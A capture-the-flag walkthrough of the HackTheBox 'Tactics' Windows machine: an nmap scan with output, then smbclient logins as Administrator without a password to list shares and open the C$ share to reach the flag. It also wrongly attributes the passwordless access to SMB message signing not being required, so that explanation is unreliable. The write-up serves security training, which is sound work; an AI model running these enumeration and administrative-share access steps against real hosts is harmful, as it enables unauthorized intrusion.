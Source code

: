 ```yaml
---
title: Tactics - A HackTheBox machine
author: amandaguglieri
TableOfContents: true
draft: false
tags:
  - walkthrough
  - windows
  - smb
  - 445
---
```


# Tactics - A HackTheBox machine


```bash
nmap -sC -A 10.129.228.98  -Pn -p-
```

Results:

```
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -5s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 7476/tcp): CLEAN (Timeout)
|   Check 2 (port 63095/tcp): CLEAN (Timeout)
|   Check 3 (port 16465/udp): CLEAN (Timeout)
|   Check 4 (port 43695/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-05-02T10:26:04
|_  start_date: N/A

```

Interesting part here is 

```
smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

```

This will allow us to use smbclient share enumeration withouth the need of providing a password when signing into the shared folder. For that we will use a well known user in Windows: Administrator.

```bash
smbclient -L 10.129.228.98 -U Administrator
```

Results:

```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC

```

```bash
smbclient \\\\10.129.228.98\\C$ -U Administrator
```


Flag is located at: 

```
\Users\Administrator\Desktop\>flag.txt 
```

